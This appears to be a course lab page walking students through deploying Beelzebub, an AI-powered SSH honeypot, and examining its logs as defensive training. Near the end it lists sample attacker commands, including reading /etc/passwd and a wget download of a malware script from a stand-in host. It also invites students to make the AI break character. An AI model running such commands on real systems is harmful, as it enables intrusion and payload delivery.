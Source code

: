 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

- $`sudo su -`
- $`apt update && apt upgrade -y`
- $`systemctl enable --now docker`
- $`cd /opt`
- $`git clone https://github.com/mariocandela/beelzebub.git`

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**
- $`nano docker-compose.yml` - Put your key here
<img width="295" height="53" alt="image" src="https://github.com/user-attachments/assets/eca9345f-c69c-45f2-8a00-5cf389e42b3b" />

- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="176" height="81" alt="image" src="https://github.com/user-attachments/assets/f02190d4-36ec-4638-8817-aae8a33ece43" />

- $`cd configurations/services/`
- $`mv ./ssh-22.yaml ~`
- $`nano ./ssh-2222.yaml` - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
- $`cd /opt/beelzebub/`
- $`docker-compose build`
- $`docker-compose up -d`

# Try it
Connect to it like
- $`ssh -p 2222 root@127.0.0.1` - use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
<pre>uname -a
cat /etc/passwd
wget http://malicious.example/malware.sh
id</pre>

Now exit the session to export the logs

- $`cd /opt/beelzebub/`
- $`docker-compose logs -f`
- $`docker-compose logs > honeypot.log`

Take your time into analyzing the logs and seeing how they are being built

Try to make ChatGpt break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**

---
[Back to the Lab](/courseFiles/Lab_07-deceptionSystems/deceptionSystems.md)



